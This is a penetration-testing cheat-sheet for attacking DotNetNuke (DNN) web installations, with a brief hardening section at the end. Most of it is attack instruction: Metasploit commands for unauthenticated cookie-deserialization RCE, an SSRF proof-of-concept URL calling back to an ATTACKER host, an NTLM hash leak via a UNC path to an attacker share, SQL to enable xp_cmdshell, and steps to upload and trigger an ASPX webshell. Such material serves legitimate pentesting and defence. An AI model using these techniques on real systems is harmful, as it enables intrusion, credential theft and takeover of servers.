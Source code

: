 # DotNetNuke (DNN)

## DotNetNuke (DNN)

If you enter as **administrator** in DNN it's easy to obtain **RCE**, however a number of *unauthenticated* and *post-auth* techniques have been published in the last few years.  The following cheat-sheet collects the most useful primitives for both offensive and defensive work.

---
## Version & Environment Enumeration

* Check the *X-DNN* HTTP response header – it usually discloses the exact platform version.
* The installation wizard leaks the version in `/Install/Install.aspx?mode=install` (accessible on very old installs).
* `/API/PersonaBar/GetStatus` (9.x) returns a JSON blob containing `"dnnVersion"` for low-privilege users.
* Typical cookies you will see on a live instance:
  * `.DOTNETNUKE` – ASP.NET forms authentication ticket.
  * `DNNPersonalization` – contains XML/serialized user profile data (old versions – see RCE below).

---
## Unauthenticated Exploitation

### 1. Cookie Deserialization RCE  (CVE-2017-9822 & follow-ups)
*Affected versions ≤ 9.3.0-RC*

`DNNPersonalization` is deserialized on every request when the built-in 404 handler is enabled.  Crafted XML can therefore lead to arbitrary gadget chains and code execution.

```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
The module automatically chooses the right path for patched but still vulnerable versions (CVE-2018-15811/15812/18325/18326).  Exploitation works **without authentication** on 7.x–9.1.x and with a *verified* low-privilege account on 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Affected versions < 9.13.8  –  Patch released April 2025*

A bypass of the older `DnnImageHandler` fix enables an attacker to coerce the server to issue **arbitrary GET requests** (semi-blind SSRF).  Practical impacts:

* Internal port scan / metadata service discovery in cloud deployments.
* Reach hosts otherwise firewalled from the Internet.

Proof-of-concept (replace `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
The request is triggered in the background; monitor your listener for callbacks.

### 3. NTLM Hash Exposure via UNC Redirect  (CVE-2025-52488)
*Affected versions 6.0.0 – 9.x (< 10.0.1)*

Specially crafted content can make DNN attempt to fetch a resource using a **UNC path** such as `\\attacker\share\img.png`.  Windows will happily perform NTLM negotiation, leaking the server-account hashes to the attacker.  Upgrade to **10.0.1** or disable outbound SMB at the firewall.

### 4. IP Filter Bypass  (CVE-2025-52487)
If administrators rely on *Host/IP Filters* for admin portal protection, be aware that versions prior to **10.0.1** can be bypassed by manipulating `X-Forwarded-For` in a reverse-proxy scenario.

---
## Post-Authentication to RCE

### Via SQL console
Under **`Settings → SQL`** a built-in query window allows execution against the site database.  On Microsoft SQL Server you can enable **`xp_cmdshell`** and spawn commands:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```

### Via ASPX webshell upload
1. Go to **`Settings → Security → More → More Security Settings`**.
2. Append `aspx` (or `asp`) to **Allowable File Extensions** and **Save**.
3. Browse to **`/admin/file-management`** and upload `shell.aspx`.
4. Trigger it at **`/Portals/0/shell.aspx`**.

---
## Privilege Escalation on Windows
Once code execution is achieved as **IIS AppPool\<Site>**, common Windows privilege-escalation techniques apply.  If the box is vulnerable you can leverage:

* **PrintSpoofer** / **SpoolFool** to abuse *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** to escape *Service Accounts*.

---
## Hardening Recommendations (Blue Team)

* **Upgrade** to at least **9.13.9** (fixes SSRF bypass) or preferably **10.0.1** (IP filter & NTLM issues).
* Remove residual **`InstallWizard.aspx*`** files after installation.
* Disable outbound SMB (ports 445/139) egress.
* Enforce strong *Host Filters* on the edge proxy rather than within DNN.
* Block access to `/API/RemoteContentProxy` if unused.

## References

* Metasploit `dnn_cookie_deserialization_rce` module documentation – practical unauthenticated RCE details (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – 2025 SSRF bypass & patch information.

